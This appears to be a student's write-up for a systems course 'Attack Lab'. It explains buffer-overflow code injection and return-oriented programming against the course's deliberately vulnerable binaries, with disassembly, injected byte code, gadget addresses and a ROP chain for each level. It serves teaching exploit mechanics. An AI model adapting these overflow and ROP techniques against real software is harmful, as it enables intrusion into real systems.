









# Attack Lab 

## Part I: Code Injection Attacks

### Intro

The following is the assembly code for `getbuf()`:

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	  sub    $0x28,%rsp
   0x00000000004017ac <+4>:	  mov    %rsp,%rdi
   0x00000000004017af <+7>:	  callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
```




Here I use orange color to indicate the return address, and blue to show the exploit code part. Colorless means that part is meaningless.



As is shown in figure 1, the target of this lab is to modify the return address in `getbuf()`, so that the program would not return to `test()` normally. Figure 1.(a) and 1.(b) apply to all the levels in Part I. So we will mainly focus on what it looks after executing `getbuf()` and get ready to return.

### Level 1

```assembly
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	  sub    $0x8,%rsp
```

Our first mission is just changing the return address of `getbuf`. To accomplish that, we need to know the beginning address of touch1, which is `0x4017c0`. The stack diagram looks like follows:



The first 40 hex values in our input does not matter. We just need to ensure the 41st - 43rd values represent the correct address. As a result of little-endian byte ordering, the address is encoded as `c0 17 40`. [touch1.txt](./touch1.txt) is a sample input.  

### Level 2

```assembly
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	  sub    $0x8,%rsp
   
   # cookie: 0x59b997fa
```

Unlike level 1 where we simply modify the return address, we need to execute some exploit code in level 2. We can directly use the allocated stack space to store the exploit code. The procedure involves two returns: when `getbuf()` returns, it will jump to the current stack space to execute some byte code. After that, the byte code contains another `ret` instruction and the program counter will be redirected to `touch2()`. So there are two return addresses here, one is within the stack space and another is `touch2()`'s address, just as shown in figure 3.a:



In our exploit code, we need to assign value to `%rdi`. Besides that, don't forget to subtract `%rsp`. After the first `ret` instruction, `%rsp` will automatically add by 0x8. Assume that our second return address is stored at address `0x5561dc98` as figure 3 (b) shows, then we need to subtract `%rsp` by 0x10.  

So we need the following byte code:

```assembly
   0:	48 83 ec 10          	sub    $0x10,%rsp
   4:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   9:	c3                   	retq   
```

and the stack diagram is shown in figure 3 (c). [touch2.txt](./touch2.txt) is a samput input.

### Level 3

```assembly
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:	  push   %rbx
```

Level 3 is somewhat like level 2. The difference is switch from numerical value to a string. The string should be stored somewhere. As mentioned in the lab writeup, how can we protect the string from being overwritten by following functions (`hexmatch()` and `strnsmp()`)? One way is to store the string somewhere deep (e.g., `-0x100(%rsp)`) but it is somewhat complicated and the corresponding byte code would exceed the allocated stack space. Another way is just store the string above `%rsp`. More specifically, rsp2 as shown in figure 4 (a): 



As the function get executed, `%rsp` just goes lower and lower. So the higher stack will be safe (as long as `hexmatch()` and `strnsmp()` don't contain code injection attacks).  

The byte code is as follows:

```assembly
   0:	48 83 ec 30          	sub    $0x30,%rsp
   4:	48 c7 c7 90 dc 61 55 	mov    $0x5561dc90,%rdi
   b:	c3                   	retq   
```

the stack diagram is shown in figure 4 (b). [touch3.txt](./touch3.txt) is a sample input.

## Part II: Return-Oriented Programming

### Level 2

In part II, since the stack positions differ from one run to another, we cannot set `rsp` to point to the our own exploit code. Instead, we need to find positions in the 'gadget farm'.  



We can use `x/72bx` to get the byte code between `start_farm` and `mid_farm`. Fortunately, there is not much code, so we could find the gadgets easily. As shown in figure 5, there are two gadgets that could be useful: 

```assembly
58          popq %rax
90          nop
c3          ret

48 89 c7    movq %rax,%rdi
90          nop
c3          ret
```

Therefore, we need to store three bytes at stack pointer: the address of the first gadget, the cookie data to be popped, and the address of the second gadget. Note that both `ret` and `popq` would increase `rsp`,  so we need to use the upward space. [rtouch2.txt](./rtouch2.txt) is a sample input and here is the stack diagram:  



### Level 3



By examing the byte code within gadget farm (`x/296bx 0x401994`), we can extract some executable byte code as shown in figure 7. 

Some useful instructions are as follows:

```assembly
0x401a06: 48 89 e0 c3 
          movq %rsp,%rax
          ret
          
0x4019c5: 48 89 c7 90 c3
          movq %rax,%rdi
          nop
          ret
          
0x4019cc: 58 90 c3
					popq %rax
					nop
					ret
					
0x401a42: 89 c2 84 c0 c3
          movl %eax,%edx
          testb %al
          ret
          
0x401a69: 89 d1 08 db c3
          movl %edx,%ecx
          orb %bl
          ret
          
0x401a27: 89 ce 38 c0 c3
          movl %ecx,%esi
          cmpb %al
          ret
          
0x4019d6: #add_xy()
          lea (%rdi,%rsi,1),%rax
          retq
```

By looking at *farm.c*, we can find a `add_xy()` function after `mid_farm()`. It plays a critical role to calculate the address of our cookie string. According to phase 3 in Part I, we know that we need to store the string somewher above `rsp` when returning to `touch3()`.  



The stack diagram is shown as above and the procedure is as follows:

```assembly
# set the base pointer to %rdi
movq %rsp,%rax
movq %rax,%rdi

# set the offset to %rsi
popq %rax					# rax = 0x48
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi

# add offset to base pointer to get the correct address
lea (%rdi,%rsi,1),%rax
movq %rax,%rdi

# call touch3()
```

[rtouch3.txt](./rtouch3.txt) is a sample input.

Cheers!